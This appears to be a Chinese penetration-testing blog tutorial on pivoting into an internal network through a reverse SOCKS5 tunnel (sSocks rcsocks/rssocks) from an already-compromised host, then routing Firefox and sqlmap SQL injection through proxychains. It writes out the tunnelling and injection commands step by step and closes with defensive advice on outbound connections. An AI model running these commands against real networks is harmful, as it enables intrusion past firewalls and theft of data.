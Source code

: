 ```yaml
---
title: Socks代理反弹突破内网
categories:
  - SYSTEM
date: 2017-11-16 14:45:52
tags:
---
```


**随着信息安全意识的提升，越来越多的信息系统前端均部署有防火墙，系统管理员根据业务需求将内部必要的服务端口通过端口映射等手段映射到公网中，如默认****web**服务端口**80**、**MSSQL**数据库服务端口*1433等。通过部署防火墙可以将信息系统内部区域与公网逻辑隔离开来，利用相关的策略有效避免或减轻来自外部的攻击。

对于渗透测试者来说，如何绕过防火墙的阻挡在内网展开渗透测试成为亟需解决的问题，本文介绍了在夺取映射到外网的内网服务器权限后，如何利用socks代理反弹获得内网访问权限。

1.sSocks

sSocks是一个[socks代理](http://www.freebuf.com/news/topnews/111545.html)工具套装，可用来开启socks代理服务，支持socks5验证，支持IPV6和UDP，并提供反向socks代理服务，即将远程计算机作为socks代理服务端，反弹回本地，极大方便内网的渗透测试，其最新版为0.0.13，可在以下链接处下载。

[http://sourceforge.net/projects/ssocks/](http://sourceforge.net/projects/ssocks/)

下载解压后，执行命令编译。

```
./configure && make
```

编译完成，进入src目录，会发现有nsocks、ssocksd、ssocks、rcsocks，其功能说明介绍如下：

程序 功能
**nsocks** 类似通过Socks5代理后的netcat，可用来测试socks server
**ssocksd** 用来开启Socks5代理服务
**ssocks** 本地启用Socks5服务，并反弹到另一IP地址
**rcsocks** 接收反弹过来的Socks5服务，并转向另一端口

**2.模拟网络环境说明**

 本文模拟的网络环境见下图1，渗透测试端IP为192.168.10.50，内网区域IP段192.168.206.0/24，内网区域能正常访问192.168.10.0/24，现假设已获得192.168.206.130权限。 

[![模拟的网络环境](http://image.3001.net/uploads/image/20130901/20130901105859_75679.jpg)](http://image.3001.net/uploads/image/20130901/20130901105859_75679.jpg)

**3.实施Socks代理反弹**
**1)本地监听端口**
在渗透测试端192.168.10.50执行

```
./rcsocks -l 1088 -p 1080 -vv
```

等待远程Socks5服务器访问本地1080端口，创建端口1080与本地端口1088的连接通道，如图2。 

[![Socks代理反弹突破内网](http://image.3001.net/uploads/image/20130901/20130901105926_77843.jpg)](http://image.3001.net/uploads/image/20130901/20130901105926_77843.jpg)

**2)开启Socks5代理服务，反弹**
在192.168.206.130上执行

```
./rssocks -vv -s 192.168.10.50:1080
```

启用Socks5服务，反弹到192.168.10.50的端口1080上，如图3。 

[![开启Socks5代理服务，反弹](http://image.3001.net/uploads/image/20130901/20130901110001_38329.jpg)](http://image.3001.net/uploads/image/20130901/20130901110001_38329.jpg)

此时在渗透测试端192.168.10.50可看到通道连接成功，效果如图4。

[![通道连接成功](http://image.3001.net/uploads/image/20130901/20130901110020_58042.jpg)](http://image.3001.net/uploads/image/20130901/20130901110020_58042.jpg)

**4.利用proxychains进行Socks5代理**
通过前面的步骤，Socks5代理已创建完成了。由于在渗透测试过程中，需要使用不同的工具程序，而在各程序中分别配置Socks5代理信息较为繁琐，而部分程序并不支持配置Socks5代理。为了简化这些操作，我们可以采用proxychains。
proxychains是一个代理客户端软件，可以支持几乎所有程序的代理，如ssh，telnet，ftp等。利用proxychains，程序能在代理的环境下被加载运行，而本身不需要具备代理功能。使用前需要对proxychains进行简单配置，打开配置文件proxychains.conf（在BT5位于/etc/proxychains.conf），如图5所示，在[ProxyList]处添加
**socks5 127.0.0.1 1088**

[![利用proxychains进行Socks5代理](http://image.3001.net/uploads/image/20130901/20130901110043_92020.jpg)](http://image.3001.net/uploads/image/20130901/20130901110043_92020.jpg)

配置成功后若要启动程序，仅需要在启动程序命令前加上proxychains。
**1)启用浏览器firefox，在终端执行命令：**

```
proxychains firefox
```

firefox启动成功，访问192.168.206.135的web服务如图6，通过代理访问成功。

[![通过代理访问成功](http://image.3001.net/uploads/image/20130901/20130901110125_93242.jpg)](http://image.3001.net/uploads/image/20130901/20130901110125_93242.jpg)

**2)利用sqlmap进行注入：**
先切换到sqlmap目录
cd /pentest/database/sqlmap
proxychains python sqlmap.py -u “存在SQL注入的链接” –dbs
注入成功，注入点信息及获取数据库信息如图7所示。

[![利用sqlmap进行注入](http://image.3001.net/uploads/image/20130901/20130901110208_52827.jpg)](http://image.3001.net/uploads/image/20130901/20130901110208_52827.jpg)

**5.后记**
由于系统管理员的疏忽或者业务需求所致，防火墙一般仅对由外向内发起的数据连接进行严格判断、过滤、甚至阻断而忽略由内往外的连接。因此，在此种情况下，通过攻陷映射到公网的端口服务，利用反弹便可获取内网访问权限，给内网安全带来极大的威胁。在信息安全建设与运维过程中，不仅要加强映射到公网的服务安全，也要重视由内到外连接的安全威胁。